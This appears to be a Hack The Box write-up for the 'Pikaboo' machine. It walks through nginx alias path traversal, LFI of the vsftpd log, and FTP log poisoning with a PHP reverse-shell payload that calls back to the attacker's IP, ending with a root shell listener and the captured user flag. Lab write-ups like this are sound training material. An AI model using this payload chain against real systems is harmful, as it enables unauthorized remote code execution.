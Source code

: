 # # `Enumeration` -

![[Pasted image 20210721114129.png]]

### Checking /pokatdex.php -

![[Pasted image 20210721114304.png]]

Clicking on any Pokemon results -

![[Pasted image 20210721114649.png]]

- Url seems very interesting for LFI but no luck
- Some API stuff.


### Checking /admin -

![[Pasted image 20210721115006.png]]

Tried some defaults creds but didn't worked and throws an error -

![[Pasted image 20210721115211.png]]

- Apache running on Port 81 because nginx running on port 80(from nmap)


# Exploit -

Path Traversal due to misconfigured nginx alias -

[Reference](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/)

So gaining the knowledge from the above post we gonna try wfuzz to find directories.It is pretty easy just go to the endpoint which ask for the
creds and then use ../ and then go to the desired directory


### Wfuzz -

```bash
root@napster:~/Documents/HTB/Pikaboo# wfuzz -u http://10.10.10.249/admin../FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt -t
 20 -f wfuzz.txt --hc 404
 
 Target: http://10.10.10.249/admin../FUZZ                                                                                                                      
Total requests: 43004                                                                                                                                         
                                                                                                                                                              
=====================================================================                                                                                         
ID           Response   Lines    Word       Chars       Payload                                                                                               
=====================================================================                                                                                         
                                                                                                                                                              
000000001:   403        9 L      28 W       274 Ch      ".php"                                                                                                
000000004:   401        14 L     54 W       456 Ch      "admin"                                                                                               
000000007:   403        9 L      28 W       274 Ch      ".html"                                                                                               
000000038:   403        9 L      28 W       274 Ch      ".htm"                                                                                        
000000209:   301        9 L      28 W       314 Ch      "javascript"                                                                                  
000000400:   403        9 L      28 W       274 Ch      "."                                                                                           
000000589:   403        9 L      28 W       274 Ch      ".htaccess"                                                                                   
000001091:   403        9 L      28 W       274 Ch      ".phtml"                                                                                      
000002138:   403        9 L      28 W       274 Ch      ".htc"                                                                                        
000003475:   403        9 L      28 W       274 Ch      ".html_var_DE"                                                                                
000004659:   200        109 L    312 W      5646 Ch     "server-status"                                                                               
000005736:   403        9 L      28 W       274 Ch      ".htpasswd"
<SNIP>
```

- We get 200 on `server-status`

### Checking /admin../server-status -

![[Pasted image 20210721122519.png]]

We find an intersesting entry of `admin-staging/index.php?page=/var/log/vsftpd.log&`

### Checking /admin../admin_staging -

![[Pasted image 20210721123308.png]]

We get in...

### Checking admin-staging/index.php?page=/var/log/vsftpd.log& -

We can access the log file -

![[Pasted image 20210721124006.png]]


# Log-Poisioning & RCE-

Some nice posts on how-to-do -

- [Medium](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d)
- [Ftp Log Poisoning](https://secnhack.in/ftp-log-poisoning-through-lfi/)

### Logging via FTP -

```bash
root@napster:~/Documents/HTB/Pikaboo# ftp 10.10.10.249
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:root): aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
```

![[Pasted image 20210721131704.png]]

We can see the `A`'s in the log.


### Reverse Shell -

```bash
root@napster:~/Documents/HTB/Pikaboo# ftp 10.10.10.249
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:root): <?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.151/9001 0>&1'"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
root@napster:~/Documents/HTB/Pikaboo# curl http://10.10.10.249/admin../admin_staging/index.php?page=/var/log/vsftpd.log
```

Listener -

```bash
root@napster:~/Documents/HTB/Pikaboo# nc -nvlp 9001
listening on [any] 9001 ...
connect to [10.10.14.151] from (UNKNOWN) [10.10.10.249] 44936
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## User.txt -

```bash
www-data@pikaboo:/home/pwnmeow$ cd /home
www-data@pikaboo:/home$ ls -la
total 568
drwxr-xr-x  3 root    root      4096 May 10 10:26 .
drwxr-xr-x 18 root    root      4096 Jul  9 14:44 ..
drwxr-xr-x  2 pwnmeow pwnmeow 569344 Jul  6 20:02 pwnmeow
www-data@pikaboo:/home$ cd pwnmeow/
www-data@pikaboo:/home/pwnmeow$ ls
user.txt
www-data@pikaboo:/home/pwnmeow$ cat user.txt 
e2f0b946b02308612b44c4f389c2d64b
```
